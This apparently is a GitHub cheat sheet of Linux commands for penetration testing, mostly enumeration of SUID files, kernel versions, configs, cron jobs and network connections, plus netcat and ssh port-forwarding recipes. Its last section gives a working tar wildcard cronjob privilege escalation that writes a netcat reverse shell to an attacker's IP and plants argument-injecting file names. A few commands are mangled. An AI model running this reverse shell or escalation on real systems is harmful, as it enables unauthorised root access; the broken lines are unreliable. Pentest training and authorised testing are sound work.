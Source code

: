 # Useful Linux commands for your Penetration Testing

> ## **SUID Commands**

```
find / -user root -perm /4000 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

find / -type f -name '*.txt' 2>/dev/null

find / -user root -perm -4000 -exec ls -ldb {}; > /tmp/suid

getcap -r / 2>/dev/null
```

---

> ## **What Version of the System?**

```
cat /etc/issue

cat /etc/*-release

cat /etc/lsb-release

cat /etc/redhat-release
```

---

> ## **What is its Kernel Version**

```
cat /proc/version

uname -a

uname -mrs

rpm -q kernel

dmesg | grep Linux

ls /boot | grep vmlinuz
```

---

> ## **What is the environment variables ?**

```
cat /etc/profile

cat /etc/bashrc

cat ~/.bash_profile

cat ~/.bashrc

cat ~/.bash_logout

env

set
```

---

> ## **Service settings, there is any wrong allocation?**

```
cat /etc/syslog.conf

cat /etc/chttp.conf

cat /etc/lighttpd.conf

cat /etc/cups/cupsd.conf

cat /etc/inetd.conf

cat /etc/apache2/apache2.conf

cat /etc/my.conf

cat /etc/httpd/conf/httpd.conf

cat /opt/lampp/etc/httpd.conf

ls -aRl /etc/ | awk ‘$1 ~ /^.*r.*/
```

----

> ## **Is there any cron jobs ?**

```
crontab -l

ls -alh /var/spool/cron

ls -al /etc/ | grep cron

ls -al /etc/cron*

cat /etc/cron*

cat /etc/at.allow

cat /etc/at.deny

cat /etc/cron.allow

cat /etc/cron.deny

cat /etc/crontab

cat /etc/anacrontab

cat /var/spool/cron/crontabs/root
```

---

> ## **Other users host communication with the system ?**

```
lsof -i

lsof -i :80

grep 80 /etc/services

netstat -antup

netstat -antpx

netstat -tulpn

chkconfig --list

chkconfig --list | grep 3:on

last

lastlog
```

---

> ## **How to port forward ?**

```
FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]

FPipe.exe -l 80 -r 80 -s 80 192.168.1.7

ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]

ssh -L 8080:127.0.0.1:80 root@192.168.1.7 # Local Port

ssh -R 8080:127.0.0.1:80 root@192.168.1.7 # Remote Port

mknod backpipe p ; nc -l -p [remote port] < backpipe | nc [local IP] [local port] >backpipe

mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.1.1.251 80 >backpipe # Port Relay

mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe # Proxy (Port 80 to 8080)

backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc

localhost 80 | tee -a outflow & 1>backpipe # Proxy monitor (Port 80 to 8080)
```

---


> ## **TAR wildcard cronjob privilege escalation**

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip> 1234 >/tmp/f" > shell.sh

touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"

touch "/var/www/html/--checkpoint=1"
```